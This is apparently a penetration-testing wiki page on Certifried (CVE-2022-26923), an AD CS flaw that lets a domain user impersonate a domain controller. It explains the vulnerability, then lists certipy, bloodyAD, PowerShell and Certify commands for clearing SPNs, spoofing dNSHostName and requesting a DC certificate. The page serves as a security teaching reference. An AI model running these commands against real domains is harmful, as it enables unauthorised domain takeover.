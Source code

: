 ```yaml
---
description: CVE-2022–26923
---
```


# Certifried

## Theory

[Certifried (CVE-2022-26923)](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) is a vulnerability discovered by [Oliver Lyak](https://twitter.com/ly4k\_) on AD CS that lets a domain-joined user escalate its privileges in the domain.

A domain user creating a computer account obtains the `Validated write to DNS host name` and `Validated write to service principal name` permissions (among other rights). Therefore, the user is allowed to change the DNS host name (`dNSHostName`) and SPN (`servicePrincipalName`) attributes of the computer account.

Computer accounts (using the `Machine` template) use the value of the `dNSHostName` property for authentication. Attempting to change the `dNSHostName` to match another computer account raises a constraint error.

In fact, the moment the `dNSHostName` property is edited, the domain controller makes sure to update the existing SPNs of the account so that the "hostname" part of it is updated to the new DNS hostname. If the SPNs already exist for another account in Active Directory, the domain controllers raises the constraint violation.

The trick found by Oliver goes as follows:

1. clear the SPNs (or at least those that reflect the `dNSHostName` value, i.e. the ones with fully-qualified hostnames, e.g. `HOST/SRV01.DOMAIN.LOCAL`)
2. change to `dNSHostName` to a target's DNS hostname (e.g. `DC.DOMAIN.LOCAL`). The constraint violation won't be raised since there won't be any SPN to update
3. request a certificate for the computer account using the `Machine` template. The Certificate Authority will use the `dNSHostName` value for identification and issue a certificate for the Domain Controller.
4. Authenticate as the DC.

A patch was released in may 2022 to address this vulnerability: [more information here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#db1c) and on [#certificate-mapping](certificate-templates.md#certificate-mapping "mention").

## Practice

### Detecting unpatched targets

Requesting a certificate based on the `Machine` (or `User`) template can indicate whether the patch has been applied or not. If the certificate object contains an SID (`objectSid`), then the patch has been applied.

{% tabs %}
{% tab title="UNIX-like" %}
This check can be conducted using [Certipy](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwjCp86j1fb3AhWpzYUKHSMeBFoQFnoECA8QAQ\&url=https%3A%2F%2Fgithub.com%2Fly4k%2FCertipy\&usg=AOvVaw1D9CAn7Ysn5XMdezp8Aemb) (Python).

{% code overflow="wrap" %}
```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User'
```
{% endcode %}

If Certipy doesn't print `Certificate object SID is [...]` after obtaining the certificate, then the attack can be conducted.

{% hint style="warning" %}
Oliver [underlined](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#08a1) the fact that to fully mitigate the vulnerability, both the KDC and the CA server must be patched.
{% endhint %}
{% endtab %}

{% tab title="Machine" %}
_At the time of writing this recipe, June 2022, no Windows alternative has been found._
{% endtab %}
{% endtabs %}

### Conducting the attack

#### Creating a computer account

The first step of the attack consists in creating a computer account ([broken-reference](broken-reference/ "mention"), [broken-reference](broken-reference/ "mention")), or have the write permission to the `dNSHostName` and `servicePrincipalName` attributes of another.

#### `dNSHostName` and `servicePrincipalName` modification

The second step is conducted by removing the SPNs that reflect the `dNSHostName` value, and then modifying the `dNSHostName` to the name of the computer account to impersonate.

{% tabs %}
{% tab title="UNIX-like" %}
The [bloodyAD](https://github.com/CravateRouge/bloodyAD) (Python) tool can be used on UNIX-like systems to operated these changes.

{% code overflow="wrap" %}
```bash
# Clearing the SPNs
bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME serviceprincipalname

# Setting the dNSHostName value to the name of a computer account to impersonate
bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME dnsHostName -v '$DC_NAME.$DOMAIN'

# Verifying the dNSHostName value and SPN entries
bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP get object $COMPUTER_NAME --attr dnsHostName,serviceprincipalname
```
{% endcode %}

[Certipy](https://github.com/ly4k/Certipy) tool can also add a machine account and amend the `dNSHostName` property with the following command liner.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># Adding a computer account and setting the dNSHostName to impersonate
</strong>certipy account create -u "$USER"@"$DOMAIN" -p "$PASSWORD" -user "$COMPUTER_NAME" -pass "$COMPUTER_PASS" -dns "$DC_NAME.$DOMAIN"
</code></pre>

{% hint style="info" %}
The Domain Components (DC) are the different parts of the domain name (`DC=domain,DC=local` for `domain.local`, or `DC=sub,DC=domain,DC=local` for `sub.domain.local`).
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
The [Active Directory RSAT](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) tools can be used on Windows systems to operate these changes.

```bash
# Clearing the SPNs
Set-ADComputer $COMPUTER_NAME -ServicePrincipalName @{}

# Setting the dNSHostName value to the name of a computer account to impersonate
Set-ADComputer $COMPUTER_NAME -DnsHostName $DC_NAME.$DOMAIN_FQDN

# Verifying the dNSHostName value and SPN entries
Get-ADComputer $COMPUTER_NAME -properties dnshostname,serviceprincipalname
```
{% endtab %}
{% endtabs %}

#### Obtaining a certificate

The third and last step consists in getting the certificate of the targeted machine account (`$DC_NAME` in the previous command examples).

{% tabs %}
{% tab title="UNIX-like" %}
[Certipy](https://github.com/ly4k/Certipy) (Python) can be used to request the certificate from UNIX-like systems.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>certipy req -u 'compter$'@"$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'Machine'
</strong></code></pre>

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
[Certify](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwiQmZer1fb3AhVBhRoKHSCyAMoQFnoECAcQAQ\&url=https%3A%2F%2Fgithub.com%2FGhostPack%2FCertify\&usg=AOvVaw0HjmYWwbHvGKTA3-f1iPP0) (C#) can be used to request the certificate from Windows systems.

{% code overflow="wrap" %}
```batch
Certify.exe request /ca:"domain\ca" /template:"Machine"
```
{% endcode %}

The certificate can then be used with [Pass-the-Certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4" %}

{% embed url="https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923" %}

{% embed url="https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html" %}

{% embed url="https://tryhackme.com/room/cve202226923" %}

